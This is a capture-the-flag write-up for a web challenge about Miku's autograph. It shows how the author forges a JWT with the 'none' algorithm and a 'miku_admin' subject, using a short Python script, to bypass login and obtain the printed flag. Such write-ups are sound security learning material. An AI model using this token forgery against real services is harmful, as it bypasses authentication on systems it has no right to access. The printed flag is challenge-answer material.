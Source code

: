 ## Question
I am so proud of the fact that I have Miku's autograph. Ha! You don't!

## Solution
Here we've been given a website which looks like this.\
![image](https://github.com/user-attachments/assets/8e06979c-832b-4203-a49c-6179b6f05ea8)

Intercepting the request in BurpSuite, we see that it's verifying the login via a JWT.
![image](https://github.com/user-attachments/assets/a2ea6560-3b1f-48c6-825b-c1e12fbcbeb2)

Decoding this JWT, we see it's a H256 algorithm JWT having a user role.
![image](https://github.com/user-attachments/assets/634d2051-2728-4697-81f2-9f969ba1bf23)

Our main objective is to login as miku_admin. So we write a script-
```python
import jwt

payload = {
    "sub": "miku_admin",
    "exp": 1739731481
}

token = jwt.encode(payload, key=None, algorithm="none")
print(token)
```

where we change the role to `miku_admin` and change the algorithm to `none`, we get the flag.
![image](https://github.com/user-attachments/assets/f80f2d33-7f97-4ac8-b4dc-25b3e7203e27)

flag: `bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}`




